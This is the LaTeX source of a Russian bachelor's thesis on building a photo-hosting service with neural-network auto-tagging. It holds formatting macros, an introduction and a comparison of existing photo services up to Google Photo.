%!TEX TS-program = xelatex

% Author: Viktor Rybakov (senotakaiOtoko@gamil.com)
% https://github.com/SenotakaiOtoko/bachelor-diploma

\documentclass[a4paper,14pt]{extarticle} % 14й шрифт
%%% Преамбула %%%

\usepackage{fontspec} % XeTeX
\usepackage{xunicode} % Unicode для XeTeX
\usepackage{xltxtra}  % Верхние и нижние индексы
\usepackage{pdfpages} % Вставка PDF

\usepackage{setspace} % Задание межстрочного интервала

\usepackage{listings} % Оформление исходного кода
\lstset{
    basicstyle=\small\ttfamily, % Размер и тип шрифта
    breaklines=true, % Перенос строк
    tabsize=2, % Размер табуляции
    literate={--}{{-{}-}}2 % Корректно отображать двойной дефис
}

% Шрифты, xelatex
\defaultfontfeatures{Ligatures=TeX}
\setmainfont{Times New Roman} % Нормоконтроллеры хотят именно его
\newfontfamily\cyrillicfont{Times New Roman}
%\setsansfont{Liberation Sans} % Тут я его не использую, но если пригодится
\setmonofont{FreeMono} % Моноширинный шрифт для оформления кода
%\setmonofont{Anonymous Pro} % Моноширинный шрифт для оформления кода

% Русский язык
\usepackage{polyglossia}
\setdefaultlanguage{russian}

% Формулы
%\usepackage{mathtools,unicode-math} % Не совместим с amsmath
\setmathfont{XITS Math}             % Шрифт для формул: https://github.com/khaledhosny/xits-math
\numberwithin{equation}{section}    % Формула вида секция.номер

\usepackage{amssymb,amsfonts,amsmath} % Математика
%\numberwithin{equation}{section} % Формула вида секция.номер

\usepackage{enumerate} % Тонкая настройка списков
\usepackage{indentfirst} % Красная строка после заголовка
\usepackage{float} % Расширенное управление плавающими объектами
\usepackage{multirow} % Сложные таблицы
\usepackage{longtable} % Длинные таблицы

% Пути к каталогам с изображениями
\usepackage{graphicx} % Вставка картинок и дополнений
\graphicspath{{images/}{images/userguide/}{images/testing/}{images/infrastructure/}{extra/}{extra/drafts/}}

% Формат подрисуночных записей
\usepackage{chngcntr}

% Сбрасываем счетчик таблиц и рисунков в каждой новой главе
\counterwithin{figure}{section}
\counterwithin{table}{section}

% Гиперссылки
\usepackage{hyperref}
\hypersetup{
    colorlinks, urlcolor={black}, % Все ссылки черного цвета, кликабельные
    linkcolor={black}, citecolor={black}, filecolor={black},
    pdfauthor={Рыбаков Виктор},
    pdftitle={Разработка проекта онлайн-сервиса с эоементами социальной сети для публикации фотографий}
}

% Оформление библиографии и подрисуночных записей через точку
\makeatletter
\renewcommand*{\@biblabel}[1]{\hfill#1.}
\renewcommand*\l@section{\@dottedtocline{1}{1em}{1em}}
\renewcommand{\thefigure}{\thesection.\arabic{figure}} % Формат рисунка секция.номер
\renewcommand{\thetable}{\thesection.\arabic{table}} % Формат таблицы секция.номер
\def\redeflsection{\def\l@section{\@dottedtocline{1}{0em}{10em}}}
\makeatother

\renewcommand{\baselinestretch}{1.4} % Полуторный межстрочный интервал
\parindent 1.27cm % Абзацный отступ

\sloppy             % Избавляемся от переполнений
\hyphenpenalty=1000 % Частота переносов
\clubpenalty=10000  % Запрещаем разрыв страницы после первой строки абзаца
\widowpenalty=10000 % Запрещаем разрыв страницы после последней строки абзаца

% Отступы у страниц
\usepackage{geometry}
\geometry{left=3cm}
\geometry{right=1cm}
\geometry{top=2cm}
\geometry{bottom=2cm}

% Списки
\usepackage{enumitem}
\setlist[enumerate,itemize]{leftmargin=12.7mm} % Отступы в списках

\makeatletter
    \AddEnumerateCounter{\asbuk}{\@asbuk}{м)}
\makeatother
\setlist{nolistsep} % Нет отступов между пунктами списка
\renewcommand{\labelitemi}{--} % Маркет списка --
\renewcommand{\labelenumi}{\asbuk{enumi})} % Список второго уровня
\renewcommand{\labelenumii}{\arabic{enumii})} % Список третьего уровня

% Содержание
\usepackage{tocloft}
\renewcommand{\cfttoctitlefont}{\hspace{0.38\textwidth}\MakeTextUppercase} % СОДЕРЖАНИЕ
\renewcommand{\cftsecfont}{\hspace{0pt}}            % Имена секций в содержании не жирным шрифтом
\renewcommand\cftsecleader{\cftdotfill{\cftdotsep}} % Точки для секций в содержании
\renewcommand\cftsecpagefont{\mdseries}             % Номера страниц не жирные
\setcounter{tocdepth}{3}                            % Глубина оглавления, до subsubsubsection

% Нумерация страниц справа сверху
\usepackage{fancyhdr}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[C]{\textrm{\thepage\newline Номер зачетной книжки}}
\fancyheadoffset{0mm}
\fancyfootoffset{0mm}
\setlength{\headheight}{17pt}
\renewcommand{\headrulewidth}{0pt}
\renewcommand{\footrulewidth}{0pt}
\fancypagestyle{plain}{ 
    \fancyhf{}
    \chead{\thepage\newline Номер зачетной книжки}
}

% Формат подрисуночных надписей
\RequirePackage{caption}
\DeclareCaptionLabelSeparator{defffis}{ -- } % Разделитель
\captionsetup[figure]{justification=centering, labelsep=defffis, format=plain} % Подпись рисунка по центру
\captionsetup[table]{justification=raggedright, labelsep=defffis, format=plain, singlelinecheck=false} % Подпись таблицы слева
\captionsetup[longtable]{justification=raggedright, labelsep=defffis, format=plain, singlelinecheck=false} % Подпись таблицы слева
\addto\captionsrussian{\renewcommand{\figurename}{Рис.}} % Имя фигуры

% Пользовательские функции
\newcommand{\addimg}[4]{ % Добавление одного рисунка
    \begin{figure}
        \centering
        \includegraphics[width=#2\linewidth]{#1}
        \caption{#3} \label{#4}
    \end{figure}
}
\newcommand{\addimghere}[4]{ % Добавить рисунок непосредственно в это место
    \begin{figure}[H]
        \centering
        \includegraphics[width=#2\linewidth]{#1}
        \caption{#3} \label{#4}
    \end{figure}
}
\newcommand{\addtwoimghere}[5]{ % Вставка двух рисунков
    \begin{figure}[H]
        \centering
        \includegraphics[width=#2\linewidth]{#1}
        \hfill
        \includegraphics[width=#3\linewidth]{#2}
        \caption{#4} \label{#5}
    \end{figure}
}
\newcommand{\addimgapp}[2]{ % Это костыль для приложения Б
    \begin{figure}[H]
        \centering
        \includegraphics[width=1\linewidth]{#1}
        \caption*{#2}
    \end{figure}
}

% Заголовки секций в оглавлении в верхнем регистре
\usepackage{textcase}
\makeatletter
\let\oldcontentsline\contentsline
\def\contentsline#1#2{
    \expandafter\ifx\csname l@#1\endcsname\l@section
        \expandafter\@firstoftwo
    \else
        \expandafter\@secondoftwo
    \fi
    {\oldcontentsline{#1}{\MakeTextUppercase{#2}}}
    {\oldcontentsline{#1}{#2}}
}
\makeatother

% Оформление заголовков
\usepackage[compact,explicit]{titlesec}
\titleformat{\section}{}{}{12.5mm}{\centering{\thesection\quad\MakeTextUppercase{#1}}\vspace{1.5em}}
\titleformat{\subsection}[block]{\vspace{1em}}{}{12.5mm}{\thesubsection\quad#1\vspace{1em}}
\titleformat{\subsubsection}[block]{\vspace{1em}\normalsize}{}{12.5mm}{\thesubsubsection\quad#1\vspace{1em}}
\titleformat{\subsubsubsection}[block]{\vspace{1em}\normalsize}{}{12.5mm}{\thesubsubsubsection\quad#1\vspace{1em}}
\titleformat{\paragraph}[block]{\normalsize}{}{12.5mm}{\MakeTextUppercase{#1}}

% Секции без номеров (введение, заключение...), вместо section*{}
\newcommand{\anonsection}[1]{
    \phantomsection % Корректный переход по ссылкам в содержании
    \paragraph{\centerline{{#1}}\vspace{1.5em}}
    \addcontentsline{toc}{section}{\uppercase{#1}}
}

% Секции для приложений
\newcommand{\appsection}[1]{
    \phantomsection
    \paragraph{\centerline{{#1}}}
    \addcontentsline{toc}{section}{\uppercase{#1}}
}

% Секция для аннотации (она не включается в содержание)
\newcommand{\annotation}[1]{
    \paragraph{\centerline{{#1}}\vspace{1em}}
}

% Секция для списка иллюстративного материала
\newcommand{\lof}{
    \phantomsection
    \listoffigures
    \addcontentsline{toc}{section}{\listfigurename}
}

% Секция для списка табличного материала
\newcommand{\lot}{
    \phantomsection
    \listoftables
    \addcontentsline{toc}{section}{\listtablename}
}

% Библиография: отступы и межстрочный интервал
\makeatletter
\renewenvironment{thebibliography}[1]
    {\section*{\refname}
        \list{\@biblabel{\@arabic\c@enumiv}}
           {\settowidth\labelwidth{\@biblabel{#1}}
            \leftmargin\labelsep
            \itemindent 16.7mm
            \@openbib@code
            \usecounter{enumiv}
            \let\p@enumiv\@empty
            \renewcommand\theenumiv{\@arabic\c@enumiv}
        }
        \setlength{\itemsep}{0pt}
    }
\makeatother

\usepackage{lastpage} % Подсчет количества страниц
\setcounter{page}{3} % Начало нумерации страниц % Подключаем преамбулу

%%% Начало документа
\begin{document}

%
\includepdf{pz} % Пояснительная записка
%
\includepdf[pages={1,2}]{task} % Задание на диплом печатается на одном листе с двух сторон
%помимо ПЗ и задания, в диплом также вкладывается отзыв руководителя и рецензия

\tableofcontents % Содержание 
\clearpage

\anonsection{Введение}

Фотография - неотъемлемая составляющая процессов производства и потребления медиа контента.
Данный формат контента является доминирующим в информационном пространстве. Он обладает рядом преимуществ перед другими видами представления информации: считывается раньше текста, может в качестве самостоятельного источника информации, а также дополнять другие виды представления информации, обладает более низким порогом вхождения для производства контента конкурентного качества и более широким распространением.
В данной сфере возрастает необходимость в качественных инструментах, позволяющих производителям контента сосредоточиться непосредственно на этапе производства, а не на организации производимого контента в хранилищах и на площадках, предназначенных для потребления контента.
Фотохостинг — это интернет сервис, спроектированный и работающий по методике web 2.0 [1], позволяющий публиковать изображения в интернете с целью хранения и/или показа фотографий другим пользователям сети интернет.
Принципы работы фотохостинга:
1.	Пользователь загружает готовую, или почти готовую фотографию в интернет-сервис.
2.	Пользователь производит над фотографией операции по обработке, связанные с пред публикационным состоянием фотографии (такие, как обрезка, наложение фильтров, регулировка контраста).
3.	Пользователь добавляет описание к фотографии при необходимости.
4.	Пользователь вручную добавляет теги к фотографии, соответствующие классовой принадлежности фотографии.
5.	Пользователь публикует фотографию в рамках фотохостинга, доступную к просмотру для всех пользователей сети интернет, а также к оцениванию и комментированию со стороны зарегистрированных и авторизованных пользователей фотохостинга.
6.	Пользователь оценивает и комментирует фотографии других пользователей, загруженные на фотохостинг

Главная задача программного обеспечения, так или иначе связанного с творчеством — уменьшить затраты пользователя на рутинные технические вещи, автоматизировать их, оставить только по-настоящему творческие задачи человеку.
Ещё одно применение изощренных технологий машинного обучения, которые ненавязчиво дают софту конкурентные преимущества, а пользователи даже не задумываются о спрятанном искусственном интеллекте.
Поставлена задача разработать приложение, которое станет удобным инструментом для людей, связанных с производством фотоконтента в сети интернет. Приложение поможет пользователю организовать удобное хранение фотографий в автоматическом режиме, помечая фотографии тегами, исходя из содержимого фотографий, позволяя в дальнейшем осуществлять поиск фотографий по необходимым критериям, настраивать их приватность и публиковать в сети интернет при необходимости. Для выполнения задачи классификации фотографий принято решение об использовании нейронных сетей.

\clearpage % Введение
\sectioncounter
\section{Аналитическая часть}\label{analytics}

\subsection{Сравнительный анализ конкурирующих решений} \label{comparsion}

Большинство фотографов хранят исходники или обработанные фотографии на локальных носителях.
Данный способ хранения имеет ряд существенных недостатков, как например, ненадежность массово используемых решений и трудность организации фотографий стандартными средствами ОС.

На сегодняшний день существует большое количество решений, предоставляющих услуги хранения  фотографий в сети.
Данная услуга имеет несомненно привлекательна для конечных пользователей.
Главное её достоинство - представление фотографий в виде систематизированных альбомов, созданного с помощью соответствующего решения, а не просто в виде бессистемного набора изображений.
В большинстве случаев у данного варианта есть определенные сложности. 
Если пользователь хочет, чтобы его альбом просматривали не только люди, знающие адрес его альбома, но и, например, другие фотографы для выяснения их мнения по поводу качественных характеристик изображений.
Также некоторую трудность представляет организация хранилища фотографий в данных решениях, а именно наполнение Web-альбомов и принятие решения о принадлежности фотографии к альбому. 
Нередко пользователи затрудняются, когда фотографию можно отнести в разные альбомы. Например, фотографию человека крупным планом, держащего щенка на руках, можно отнести как к условному альбому "домашние животные", так и к альбомам "люди", "портреты", "собаки", "щенки".
Каждый день появляются новые сервисы для хранения фотографий, сильно похожие на существующие аналоги.
Сервисы соревнуются в типовых характеристиках, таких, как максимальное разрешение загружаемой фотографии, максимально возможное количество загруженных фотографий, тем самым они не педлагают пользователям нового функционала, связанного с организацией хранилища фотографий.

\subsubsection{Яндекс.Диск}
Яндекс.Диск является одним из самых популярных сервисов среди русскоязычного сообщества фотографов. 
Данный хостинг предоставляет 10 гигабайт бесплатного хранилища при регистрации. 
Причём загружать можно как фотографии в формате jpeg, так и исходники фотографий без обработки непосредственно с фотоаппарата. 
Данный хостинг не позиционируется, как решение, предназначенное только для фотографий. 
На Яндекс.Диск можно загружать файлы любых форматов. 
Однако универсальность всегда накладывает некоторые ограничения. 
В случае с Яндекс.Диском это отсутствие взаимодействия между фотографами в виде популярных или актуальных фотографий, отсутствие автотегирования и практически все те же ограничения, что и при хранении фотографий на электронных носителях, а именно трудности, связанные с организацией и упорядочиванием фотографий в хранилище. 
Стоит отметить, что сервис Яндекс.Диск имеет простой и понятный интерфейс ввиду классической абстракции хранения фотографий в альбомах в виде файловой системы с альбомами в виде каталогов и фотографиями в виде файлов с возможностью просмотра и редактирования фотографий без их непосредственной загрузки на электронные носители. Интерфейс сервиса Яндекс.Диск представлен на рисунке \ref{yandex-disk}.

\addimghere{yandex-disk}{0.9}{Веб интерфейс сервиса Яндекс.Диск}{yandex-disk}

\subsubsection{Apple Фотографии}
Одним из самых удобных на сегодняшний день сервисов для хранения фотографий является Фотографии от Apple.
Самый большой недостаток данного сервиса - отсутствие кросплатформенности. 
Фотографии работают только на операционных системах iOS и macOS, что в свою очередь не даёт возможности воспользоваться данным программным приложением начинающим фотографам с ограниченным бюджетом ввиду дороговизны устройств компании Apple.
Однако это не мешает данному сервису пользоваться популярностью у фотографов, имеющих в наличии технику от компании Apple. 
Приложение имеет возможность синхронизации с другими устройствами и возможность резервного копирования фотографий в облако, однако для доступа к данному функционалу необходимо приобретать пространство в облачном хранилище за отдельную плату.
Решение имеет функционал автотегирования за счёт ресурсов пользовательского устройства и функции распознавания лиц на фотографиях.
Частично имеется функция ручной коррекции результатов индексации фотохранилища, а именно функция ручной коррекции результата распознавания лиц.
Сервис работает только через официальные клиентские приложения.
Веб интерфейса у сервиса нет.
Интерфейс клиентского приложения представлен на рисунке \ref{apple-photos}.

\addimghere{apple-photos}{0.9}{Интерфейс приложения Фотографии Apple}{apple-photos}

\subsubsection{Instagram}
Самой массовой соцсетью, совмещающей в себе часть функций фотохостинга является instagram.
Сервис является популярным во всём мире и насчитывает более 1 миллиарда пользователей.
В данной социальной сети одними из первых были внедрены тэги, связывающие публикации по всему сервису.
Однако сервис не позволяет добавить более 30 тегов к одной публикации. 
Длинна текста публикации ограничена, а поиск можно производить только глобальный в рамках всего сервиса и только по одному тегу.
Сервис не предоставляет инструментов для автотегирования и автоиндексирования фотографий.
В следствие чего поиск опубликованных фотографий по тегам явялется весьма затруднительным, а критерии поиска, которые можно сформировать, весьма ограничены. 
Таким образом сервис является в первую очередь социальной сетью с лентой актуальных публикаций и только потом фотохостингом.
Из недостатков можно также отметить низкое качество загруженных фотогафий после сжатия на серверах instagram ввиду ориентированности сервиса на мобильные устройства, отсутствие какой-либо защиты фотографий от копирования и скудные настройки приватности фотографии.
Конкретную фотографию можно скрыть для всех пользователей, не скрытые данным образом фотографии можно показать только друзьям или всем пользователям социальной сети.
Тем не менее, интерфейс данной социальной сети, представленный на рисунке \ref{instagram} интуитивно понятен и прост в освоении.

\addimghere{instagram}{0.55}{Интерфейс мобильного приложения instagram}{instagram}

\subsubsection{Сервис 500px}
Сервис 500px преследует цель создания удобного облачного хранилища фотографий, преимущественно для любителей.
Данный сервис имеет удобный алгоритм популярности и актуальности фотографий.
Это может быть востребовано среди фотографов, ищущих критики и оценки своих фотографий со стороны других пользователей сервиса.
На сайте явно прослеживаются коммерческие цели компании.
Они проявляются в сильных ограничениях пользования сервисом у пользователей на бесплатной основе, например возможность загружать не более 7 фотографий в неделю.
Продукт имеет низкий функционал.
Так, например, отсутствует возможность размещения исходников фотографий в каком-либо виде.
Все фотографии, загруженные на данный фотохостинг сжимаются
У сервиса отсутствует фоторедактор загруженных в каком-либо виде.
Присутствует возможность монетизации фотографий, навигации с помощью клавиш, извлечения записанных в фотографию метаданных, однако отсутствует какая-либо настройка приватности фотографий.
Основной интерфейс фотохостинга 500px представлен на рисунке \ref{500px}.

\addimghere{500px}{0.9}{Веб интерфейс сервиса 500px}{500px}

\subsubsection{Flickr}
Flickr по концепции очень похож на ранее названный 500px.
Несмотря на это сервис является более ориентированным на пользователей, чем его идейный аналог.
Одной из главных и отличительных особенностей сайта является отсутствие рекламы даже для пользователей, не купивших платную подписку. 
В сервисе на одном экране помещается максимально возможное количество контента среди всех конкурентов.
На сайте есть такие приятные функции, как скачивание фотографии в нескольких размерах, замена оригинала фотографии, встроенный фоторедактор, настройки лицензирования, чтение метаинформации из фотографий, теги и лента актуальных публичных фотографий.
Однако на сайте отсутствует в каком-либо виде автоиндексация фотографий.
Также нельзя загружать исходники фотографий.
Хранилище необходимо организовывать полностью вручную.
У данного фотохостинга прослеживается коммерческая составляющая, которая проявляется также в виде ограничения на количество загружаемых фотографий.
В данном случае количество фиксированное и не должно превышать 1 тысячу фотографий.
Веб интерфейс решения представлен на рисунке \ref{flickr}.

\addimghere{flickr}{0.9}{Веб интерфейс сервиса flickr}{flickr}

\subsubsection{Google Photo}

Одной из функций, улучшающих опыт использования от сервиса была бы возможность в автоматическом, или полуавтоматическом режиме организовывать хранилище фотографий, тем самым снимая данную нагрузку с пользователя.
Это возможно благодаря индексации фотографий в сервисе сразу после их загрузки. 
Фотография классифицируется по нескольким наборам признаков и сервис сохраняет индексированную информацию о принадлежности фотографии к набору классов.
Предполагается возможность формирования альбомов с фотографиями "на лету", после ввода пользователем общих критериев, объединяющих сразу несколько фотографий по проиндексированным при загрузке признакам.

В настоящий момент на рынке не так много решений по хранению фотографий, классифицирующих или категоризирующих изображения.
Подобных решений по хранению фотографий непосредственно в сети еще меньше.
Одними из немногих и самым популярным среди таковых является сервис Google Photo. 
В Google Photo можно бесплатно загружать фотографии, размер которых не превышает 16 МПикс в формате jpeg. 
Сразу после загрузки фотографии индексируются для дальнейшего поиска по ключевым словам.
При этом результаты индексирования остаются полностью скрытыми от пользователя. 
В таком случае, если алгоритм индексации ошибся, пользователь никогда об этом не узнает, или по крайней мере, никак не сможет на это повлиять. 
Например, нейронная сеть может распознать класс там, где его на самом деле нет или не распознать класс там, где он присутствует.
Тогда по определённому поисковому запросу пользователь не увидит нужных ему фотографий, или увидит фотографии, ошибочно отнесённые к поисковому классу.
Интерфейс сервиса Google Photo, содержащий ошибочный результат поиска представлен на рисунке \ref{google-photo}.

